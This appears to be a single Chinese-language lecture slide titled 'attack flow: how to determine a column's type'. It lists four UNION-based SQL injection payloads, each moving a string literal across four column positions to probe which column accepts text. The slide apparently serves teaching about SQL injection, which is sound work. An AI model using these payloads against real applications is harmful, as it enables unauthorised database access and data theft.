

# 攻擊流程
如何確定欄位的型別
’ UNION SELECT ‘a’,NULL,NULL,NULL–
’ UNION SELECT NULL,‘a’,NULL,NULL–
’ UNION SELECT NULL,NULL,‘a’,NULL–
’ UNION SELECT NULL,NULL,NULL,‘a’–